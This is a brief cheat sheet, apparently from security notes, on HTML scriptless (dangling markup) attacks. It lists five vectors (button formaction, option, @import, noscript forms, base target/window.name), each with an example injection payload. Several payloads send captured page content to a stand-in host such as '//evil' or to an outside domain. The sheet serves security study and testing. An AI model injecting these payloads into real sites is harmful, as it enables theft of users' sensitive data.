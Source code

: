 #  HTML Scriptless Attacks / Dangling Markup Attacks (Part - 1)
Index | Section
--- | ---
**1** | Introduction 
**2** | Interesting Attack Vectors (Part - 1)
**3** | References & Good Reads

___
#### Introduction
```
1. Dangling markup attack is often known as HTML Scriptless Injection attack. This is often useful when you have HTML Injection vulnerability but not a way to escalate it to XSS and you want to extract information.

2. It can also be used in the situations where some sensitive data is stored in HTML as clear text. This attack can be used to exfiltrate that information.

```


#### Interesting Attack Vectors (Part - 1)
```
(Credits: http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/)

1. Button as a Scriptless Vector

- In HTML5, the default type for a button is a submit and the "formaction" attribute allows to change the parent form action.
- Also, it is possible to stroe any html after button until the next or non existent closing button tag.
- Example: <button name=xss type=submit formaction=//evil>I get consumed!

2. Option as a Scriptless Vector

- Option also consumes HTML and can be used as an attack vector
- Example: <form action=//evil><select name=xss><option><b>steal me!</b>

3. @import as a scriptless Vector

-  @import continues parsing a url until it encounters a ending “;”. It means it can be used to consume HTML. 
- Example: 
			<style>@import//hackvertor.co.uk?
			<b>steal me!</b>;

4. Noscript scriptless vector

- Example: <noscript><form action=http://google.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=pwnd><textarea name=contents></noscript>
				
5. Using window.name via base target
				
- You can also use the target attribute to assign the contents of the HTML after to the window name and then later retrieve it x-domain after a user clicks an external link.

- Example: <base target='
steal me'<b>test</b>

```


#### References & Good Reads

```
a. http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/

```
